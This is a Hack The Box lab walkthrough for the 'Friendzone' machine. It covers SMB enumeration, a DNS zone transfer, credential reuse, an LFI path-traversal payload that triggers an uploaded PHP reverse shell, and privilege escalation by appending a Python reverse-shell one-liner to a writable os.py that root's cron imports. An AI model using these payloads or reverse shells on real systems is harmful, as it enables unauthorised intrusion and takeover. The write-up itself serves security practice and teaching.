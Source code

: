 ```yaml
---
title: Friendzone - Hack The Box
author: "0xPThree"
description: "N/A"
date: 2019-06-17
image: images/friendzone_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```





# USER
## Enumeration

Enum standard + extra smb
```bash
nmap -sC -sV -O 10.10.10.123
nmap --script=smb-enum-shares 10.10.10.123 
```

Grab `cred.txt`
```bash
smbclient //10.10.10.123/general
get creds.txt
```

Zone Transfer to find subdomains
```bash
dig axfr friendzone.red @10.10.10.123
```

Add subdomains to `/etc/hosts`
```bash
10.10.10.123 friendzone.red administrator1.friendzone.red hr.friendzone.red uploads.friendzone.red
```

Login as `administrator1` with credentials found from `cred.txt`

Upload reverse shell through SMB
```bash
smbclient //10.10.10.123/Development
put r
```

Prepare `nc` to grab reverse shell
```bash
nc -lnvp 4455
```

Use LFI through dashboard.php to trigger reverse shell.

With previous enumeration of smb shares we found the path to `/etc/Development` where our shell will be uploaded.

`dashboard.php?image_id=a.jpg&pagename=../../../../../etc/Development/r`

> **NOTE1:**

> Probably smart to upload a test file, like `<?php phpinfo(); ?>`, before going for the reverse shell.


> **NOTE2:**

> The php call will look something like this: `<?php “include/”.include($_GET['pagename'].“.php”); ?>`

> Do not end your filename with `.php` as this is already done in the code and you'll create a double file ending. 

Grab user: `/home/friend/user.txt`

Grab SSH-creds:
```bash
ls /var/www/htm/mysql_data.conf
(f*****:A*************)
```

---------




# ROOT

```bash
ssh friend@10.10.10.123
```

Look on executing services with `pspy64`:
```bash
2019/06/18 16:24:01 CMD: UID=0    PID=4059   | /bin/sh -c /opt/server_admin/reporter.py 
2019/06/18 16:24:01 CMD: UID=0    PID=4058   | /bin/sh -c /opt/server_admin/reporter.py 
2019/06/18 16:24:01 CMD: UID=0    PID=4057   | /usr/sbin/CRON -f 
```

Investigate the script `reporter.py` and we find that it uses `import os`.


With ls -l1 we find that we have `+r+w` one the file `/usr/lib/python2.7/os.py`

Add a python reverse shell at the end of `os.py` and wait for cron to trigger it.
```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4488));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Start `nc -lvnp 4488` and grab `root.txt`
